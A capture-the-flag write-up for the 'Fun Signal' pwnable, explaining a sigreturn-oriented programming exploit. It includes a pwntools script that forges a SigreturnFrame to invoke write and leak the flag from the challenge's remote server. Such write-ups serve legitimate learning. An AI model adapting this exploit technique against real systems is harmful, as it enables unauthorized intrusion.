 # Fun Signal

We are given a standard pwnable setup of a binary and remote address and port.
Throwing the binary into hopper shows a very short program.

![Asm](img/hopper.png)

It makes two syscalls. The first reads information onto the stack, and the second
calls sigreturn. While building our own sigreturn frames looks like it could be
a little complex, pwntools takes care of this for us easily.

Now that we have arbitrary control, we need to figure out what to do. The provided
binary has a fake flag in the binary, so printing it out should suffice, using the
write syscall. Pwntools makes this really easy.

```python
from pwn import *

#r = remote("localhost", 2015)
r = remote("163.172.176.29", 9034)
frame = SigreturnFrame(arch='amd64')
frame.rax = 1 #syscall number
frame.rdi = 1 #syscall FD
frame.rsi = 0x0000000010000023 #buff addr
frame.rdx = 0x50 #length
frame.rip = 0x10000012 #syscall inst addr
frame.rsp = 0
exp = str(frame)
r.send(exp)
r.interactive()

```
